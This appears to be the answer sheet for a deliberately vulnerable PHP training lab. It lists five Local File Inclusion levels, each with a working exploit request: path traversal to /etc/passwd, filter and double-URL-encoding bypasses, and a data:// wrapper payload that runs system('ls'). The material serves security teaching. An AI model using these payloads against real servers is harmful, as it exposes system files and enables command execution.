 ## Level 1

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_1.php?file=/etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. 

## Level 2

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_2.php?file=...//index`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The string replacement here is unsufficient because you can still change directories.

## Level 3

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_3.php?file=../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.


## Level 4

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_4.php?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The urldecode() call is risky and should not be called with $\_GET or $\_REQUEST (see [PHP documentation](https://www.php.net/manual/fr/function.urldecode.php)).

## Level 5

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_5.php?file=data://text/plain;charset=utf-8,<?php system('ls');//index`

**Impact (with allow_url_include=On):** Execute arbitrary system commands on HTTP server. 


